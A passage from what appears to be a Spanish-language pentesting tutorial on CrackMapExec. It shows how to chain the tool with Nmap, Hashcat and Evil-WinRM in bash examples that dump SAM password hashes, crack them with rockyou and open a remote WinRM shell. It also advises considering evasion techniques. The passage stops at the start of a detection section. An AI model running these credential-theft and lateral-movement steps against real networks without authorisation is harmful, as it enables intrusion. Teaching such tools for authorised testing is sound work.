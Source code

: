 > 10. **Subestimar la detección**: Las herramientas de seguridad modernas pueden detectar el uso de CrackMapExec; considera técnicas de evasión cuando sea necesario.

---

## Integración con Otras Herramientas

CrackMapExec funciona especialmente bien como parte de un flujo de trabajo que integra múltiples herramientas:

```mermaid
flowchart LR
    A[Nmap] -->|Descubrimiento| B[CrackMapExec]
    B -->|Credenciales| C[Impacket]
    B -->|Hashes| D[Hashcat]
    B -->|Acceso| E[Evil-WinRM]
    C -->|Más exploits| B
    D -->|Contraseñas crackeadas| B
    E -->|Sesiones| F[Empire/Metasploit]
```

### Ejemplos de Integración:

1. **Nmap + CrackMapExec**:
   ```bash
   # Primero identificar hosts con Nmap
   nmap -p 445 192.168.1.0/24 -oG smb_hosts.txt
   # Luego usar grep para extraer IPs y pasarlas a CME
   cat smb_hosts.txt | grep "open" | cut -d " " -f 2 > targets.txt
   crackmapexec smb targets.txt --shares
   ```

2. **CrackMapExec + Hashcat**:
   ```bash
   # Extraer hashes con CME
   crackmapexec smb 192.168.1.100 -u admin -p pass --sam > hashes.txt
   # Crackear hashes con Hashcat
   hashcat -m 1000 hashes.txt rockyou.txt
   ```

3. **CrackMapExec + Evil-WinRM**:
   ```bash
   # Identificar hosts con WinRM habilitado
   crackmapexec winrm 192.168.1.0/24
   # Conectarse con Evil-WinRM
   evil-winrm -i 192.168.1.100 -u administrator -p 'Password123'
   ```

---

## Detección y Mitigación

### Cómo se detecta el uso de CrackMapExec:
